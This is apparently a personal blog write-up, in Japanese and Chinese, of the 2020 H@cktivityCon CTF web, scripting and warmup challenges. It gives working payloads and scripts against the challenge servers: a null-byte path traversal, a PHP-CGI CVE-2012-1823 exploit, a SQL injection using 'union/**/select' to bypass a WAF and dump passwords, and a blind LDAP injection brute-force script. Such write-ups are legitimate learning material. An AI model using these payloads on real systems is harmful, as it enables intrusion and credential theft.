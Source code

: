 ```yaml
---
layout: post
title:  H@cktivityCon CTF Writeup
date:   2020-08-01 10:11:34 +0800
categories: CTF
---
```


このCTFはhackeroneさんが開催したのCTFですね。今回は見学のようにチームBlack Bauhiniaのみなさんと一緒に遊びましたが、ほとんどチームのみなさんがわたしより早く問題解いたので。二つのフラグしか入れた。

昔からhackeroneでBug Bountyを始めると思ってますがmethodologyがわからないから全然やったことありません。

***

## [Web] Ladybug

打開了題目給的link，用wappalyzer看到是用Flask

試了在/film後面亂打東西，就出了AssertionError出來。查了一下是Werkzeug的debugger
之後去/console就能拿到個在行python的console，在裡面跑os的command把flag找出來就行了
```python
>>>import os
>>>os.listdir()
>>>a=open('flag.txt','r')
>>>a.read()
```
![Ladybug](/images/Hacktivitycon-CTF/flag.PNG)

## [Web] Bite

很令人懷念的null byte attack

如果在page打xxx上去，他會說沒有xxx.php，所以加```%00```在後面把.php去掉就行了
之後就用運把flag.txt找出來:P

```jh2i.com:50010/?page=../../../../../flag.txt%00```

![bite](/images/Hacktivitycon-CTF/bite.PNG)

## [Web] GI Joe

這個聽說也是很舊的東西，CVE也好像是2012年的東西

在URL後面加```?-s```的話，就能看到那個page的source code

參考著徳丸さん的記事 https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html

在Burp suite request payload過去(下圖)，flag就出來了

![GIJoe](/images/Hacktivitycon-CTF/GIJoe.PNG)

## [Web] Waffle Land

在search那邊打`'`會發現到有SQL injection，先用`' order by 5 -- #'`找到有多少field。之後就是用union select把想要的東西(username/password)拿出來。

可是打`union select`的話，就會被503，有WAF在前面阻住不給打`union select`

把`union select`換成`union/**/select`就能bypass WAF

```SQL
' and 0 union/**/select 1,GROUP_CONCAT(username),GROUP_CONCAT(password),4,5 FROM user -- #
```

然後就能拿到admin的password```admin:NT7b#ed4$J?eZ#m_```，再去Login就有flag了

## [Web] Lightweight Contact Book

LDAP Injection對我來說是初見的說，這個做起來有種blind injection的感覺

Webpage只有Display name跟email，先要把隱藏的field撞出來，再每一個字去試admin的那個field的內容是什麼。 寫了個script讓他去撞

```python
import requests
#attlist = ['First Name','Initials','description','office']
string = ''
end = False

while(end == False):
	for i in range(95, 127):
		r = requests.get('http://jh2i.com:50019/?search=*)(description=' + string + chr(i) + '*')
		if 'administrator@hacktivitycon.local' in r.text:
			string += chr(i)
			print(string)
			end = False
			break
		end = True
```

password是`very_secure_hacktivity_pass`寫了在description裡 登入之後就會給flag

![light](/images/Hacktivitycon-CTF/Light.PNG)

## [pwn]Pancakes

![pancakes](/images/Hacktivitycon-CTF/pancakes.png)

## [Scripting]Misdirection

按下get flag之後就會狂redirect，而redirect裡有拆開了的flag，把字拾起來再連在一起就行了

```python
import requests

headers = {
    'Accept-Encoding': 'gzip, deflate, sdch',
    'Accept-Language': 'en-US,en;q=0.8',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Cache-Control': 'max-age=0',
    'Connection': 'keep-alive',
}
flag = ''
r = requests.get('http://jh2i.com:50011/site/flag.php', headers=headers, allow_redirects=False)
while(r.headers['Location'] != None):
	link = r.headers['Location'] 
	r = requests.get('http://jh2i.com:50011'+ link, headers=headers, allow_redirects=False)
	# print(r.text)
	if 'flag' in r.text:
		s = r.text
		s = s.split(' ')
		s = s[6].split('\n')
		flag += s[0]
		print(flag)

```

## [Warmup] InternetCattos

在terminal行TCPdump，再在另一個terminal nc去題目給的資訊
```bash
$ sudo tcpdump -annXX host 104.197.242.66
```

![internetcattos](/images/Hacktivitycon-CTF/InternetCattos.PNG)